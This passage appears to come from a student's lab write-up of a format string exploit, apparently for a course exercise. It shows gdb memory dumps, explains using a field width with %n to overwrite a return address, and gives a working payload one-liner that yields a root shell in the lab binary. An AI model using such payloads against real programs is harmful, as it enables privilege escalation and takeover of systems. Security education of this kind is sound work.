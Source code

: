 <span class="hljs-number">0xffffd964</span>:     <span class="hljs-number">0x203a6469</span>      <span class="hljs-number">0x20202020</span>      <span class="hljs-number">0x41414120</span>      <span class="hljs-number">0xffffda34</span>
<span class="hljs-number">0xffffd974</span>:     <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>
<span class="hljs-number">0xffffd984</span>:     <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x35343331</span>      <span class="hljs-number">0x33323431</span>      <span class="hljs-number">0x6e257834</span>      
<span class="hljs-number">0xffffd994</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9a4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9b4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
</code></pre>

<p>Hmm, much better, but the number of bytes we wrote so far is too small and how can we get to 0x08048690. It turns out that there is a convenient operation called “width of format string” that can help us with this. You simply put a number before the last <code>%x</code> before your <code>%n</code> and that number will be added to the number of bytes written so far. LOL that is so freaking convenient.  <br>
Tune up your payload to something like this: <br>
<code>$(python -c 'print "AAA\x34\xda\xff\xff"+"%x"*9+"%134514234x"+"%n"')</code> <br>
and run it in gdb. </p>



<pre class="prettyprint"><code class=" hljs vhdl">(gdb) run $(python -c <span class="hljs-attribute">'print</span> <span class="hljs-string">"AAA\x34\xda\xff\xff"</span>+<span class="hljs-string">"%x"</span>*<span class="hljs-number">9</span>+<span class="hljs-string">"%134514234x"</span>+<span class="hljs-string">"%n"</span>')
(gdb) cont
(gdb) cont</code></pre>

<p>after it put a huge width … We entered the shell. Let’s try it in real program.</p>

<pre class="prettyprint"><code class=" hljs ruby">rwang74<span class="hljs-variable">@bb7bd829ff8f</span><span class="hljs-symbol">:/c0re</span><span class="hljs-variable">$ </span>/c0re/attackformat <span class="hljs-variable">$(</span>python -c <span class="hljs-string">'print "AAA\x34\xda\xff\xff"+"%x"*9+"%134514234x"+"%n"'</span>)

```
                                       <span class="hljs-number">41414120</span>
```

root<span class="hljs-variable">@bb7bd829ff8f</span><span class="hljs-symbol">:/c0re</span><span class="hljs-comment"># whoami</span>
root</code></pre>

<p>God damn that is so easy. </p>